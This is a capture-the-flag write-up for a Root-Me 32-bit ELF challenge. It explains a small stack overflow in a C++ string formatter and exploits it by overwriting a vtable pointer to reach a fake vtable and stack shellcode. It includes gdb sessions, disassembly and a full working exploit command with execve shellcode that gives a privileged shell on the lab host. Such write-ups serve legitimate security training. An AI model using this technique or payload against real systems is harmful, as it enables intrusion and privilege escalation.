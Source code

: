 # ELF x86 - Stack buffer overflow - C++ vtables
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-C-vtables
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         Yes 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge20.root-me.org
Protocol	SSH
Port	        2224
SSH access 	ssh -p 2224 app-systeme-ch20@challenge02.root-me.org    
Username	app-systeme-ch20
Password	app-systeme-ch20
```

The vulnerable code is at the function _GetInput_ in _MyStringFormatter_ class:
```c++
#define SIZE (80)
[...snip...]
void GetInput(int padding )  {
  memset(str ,' ' , SIZE  ); 
  fgets(str+padding,SIZE,stdin); 
}
```
The padding can be 1-5 and the user can write up to 80 bytes. The buffer is 80 bytes long, so it's possible to overwrite up to 5 bytes after the buffer ends.<br>
Let's try to do so, and check what did we changed:
```gdb
(gdb) run < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Starting program: /challenge/app-systeme/ch20/ch20 < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 

Program received signal SIGSEGV, Segmentation fault.
0x08048a0e in MyStringFormatter::display() const ()
```
In fact, the _DDDD_ overwrites the MyStringFormatter object's vtable entry of the _MyStringFormatter::display()_ function. 
So because the SSP is on (so we cannot overwrite the _eip_), and because the _MyStringFormatter::display()_ function is called at the end of the program, we can overwrite its vtable entry and control the _eip_.<br><br>

Here is the _MyStringFormatter::display()_ call:
```asm
   0x08048a02 <+0>:	push   %ebp
   0x08048a03 <+1>:	mov    %esp,%ebp
   0x08048a05 <+3>:	sub    $0x18,%esp
   0x08048a08 <+6>:	mov    0x8(%ebp),%eax
   0x08048a0b <+9>:	mov    0x50(%eax),%eax
   0x08048a0e <+12>:	mov    (%eax),%eax
   0x08048a10 <+14>:	add    $0x8,%eax
   0x08048a13 <+17>:	mov    (%eax),%ecx
   0x08048a15 <+19>:	mov    0x8(%ebp),%edx
   0x08048a18 <+22>:	mov    0x8(%ebp),%eax
   0x08048a1b <+25>:	mov    0x50(%eax),%eax
   0x08048a1e <+28>:	mov    %edx,0x4(%esp)
   0x08048a22 <+32>:	mov    %eax,(%esp)
   0x08048a25 <+35>:	call   *%ecx
   0x08048a27 <+37>:	leave  
   0x08048a28 <+38>:	ret 
```
To sum up:
1. The object (this or self) is moved to _eax_.
2. The vtable of the object is found (at offset 0x50) and is moved to _eax_.
3. The object's _display_ function is found (at instruction +14).
4. The function address is moved to _ecx_ and at the end of the function, there is a call to the address stored in _ecx_ (instruction +35).

<br>
The ASLR and NX are unset. So, it's possible to use the regular shellcode in the stack concept.<br>

1. We'll first jump to the start of the buffer which we can control (0xbffffb45).
2. Then at the start of the buffer we'll put an address to a fake vtable (which will contain an address of a point in the buffer).
3. The fake vtable will contain 1 address to our shellcode.

So it will look like the following diagram:
```
                                  +-----------------+  
        0xbffffb45                |   0xbffffb41    |  
                                  +-----------------+  
        0xbffffb49                |   0xbffffb4d    |  
                                  +-----------------+  
                                  |                 |  
        0xbffffb4d                |    SHELLCODE    |  
                                  |                 |  
                                  +-----------------+  
                                  |       JUNK      |  
                                  +-----------------+  
                                  |   0xbffffb45    |  
                                  +-----------------+
```

Let's try it out:
```sh
app-systeme-ch20@challenge02:~$ cat <(python -c "print '5\n1\n' + '\x41\xfb\xff\xbf' + '\x4d\xfb\xff\xbf' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*39 + '\x45\xfb\xff\xbf'") - | ./ch20 
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 
id
uid=1120(app-systeme-ch20) gid=1120(app-systeme-ch20) euid=1220(app-systeme-ch20-cracked) groups=1220(app-systeme-ch20-cracked),100(users),1120(app-systeme-ch20)
cat .passwd
<censored>
```
